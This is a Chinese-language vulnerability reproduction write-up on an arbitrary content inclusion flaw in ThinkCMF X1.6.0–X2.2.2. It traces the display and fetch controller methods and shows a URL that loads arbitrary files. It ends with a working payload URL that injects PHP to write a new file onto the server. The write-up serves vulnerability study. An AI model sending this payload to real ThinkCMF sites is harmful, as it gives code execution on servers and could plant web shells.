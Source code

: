 ThinkCMF 框架上的任意内容包含漏洞
=================================

一、漏洞简介
------------

二、漏洞影响
------------

ThinkCMF X1.6.0 ThinkCMF X2.1.0 ThinkCMF X2.2.0 ThinkCMF X2.2.1 ThinkCMF
X2.2.2

三、复现过程
------------

根据index.php中的配置，他的项目路径为application，打开 Portal 下的
Controller 目录，选择一个控制类文件。

![](./resource/ThinkCMF框架上的任意内容包含漏洞/media/rId24.png)

发现他的父类为Common\\Controller\\HomebaseController。
在HomeBaseController中加入如下测试代码

![](./resource/ThinkCMF框架上的任意内容包含漏洞/media/rId25.png)

ThinkPHP是一套基于MVC的应用程序框架，被分成三个核心部件：模型（M）、视图（V）、控制器（C）。
由于添加的代码在控制器中，根据ThinkPHP框架约定可以通过a参数来指定对应的函数名，但是该函数的修饰符必须为Public,
而添加的代码正好符合该条件。
可以通过如下URL进行访问，并且可以添加GET参数arg1传递给函数。

    http://127.0.0.1/cmfx-master/?a=test_public&arg1=run%20success

![](./resource/ThinkCMF框架上的任意内容包含漏洞/media/rId26.png)

HomeBaseController类中有一些访问权限为public的函数，

![](./resource/ThinkCMF框架上的任意内容包含漏洞/media/rId27.png)

重点关注display函数.看描述就是可以自定义加载模版，通过
\$this-\>parseTemplate
函数根据约定确定模版路径，如果不符合原先的约定将会从当前目录开始匹配。
然后调用THinkphp Controller 函数的display方法

    /**
     * 加载模板和页面输出 可以返回输出内容
     * @access public
     * @param string $templateFile 模板文件名
     * @param string $charset 模板输出字符集
     * @param string $contentType 输出类型
     * @param string $content 模板输出内容
     * @return mixed
     */
    public function display($templateFile = '', $charset = '', $contentType = '', $content = '', $prefix = '') {
        parent::display($this->parseTemplate($templateFile), $charset, $contentType,$content,$prefix);
    }

再往下就是调用Think View的fetch方法，这里的TMPL\_ENGINE\_TYPE 为Think,
最终模版内容解析在ParseTemplateBehavior中完成 如下调用即可加载任意文件
<http://0-sec.org:81/cmfx-master/?a=display&templateFile=README.md>

![](./resource/ThinkCMF框架上的任意内容包含漏洞/media/rId29.png)

往下面翻阅发现还有fetch方法，display方法相对fetch只是多了一个render的过程，而且这里不需要知道文件路径

最终完美payload

    http://0-sec.org/?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('test.php','<?php phpinfo(); ?>')</php>
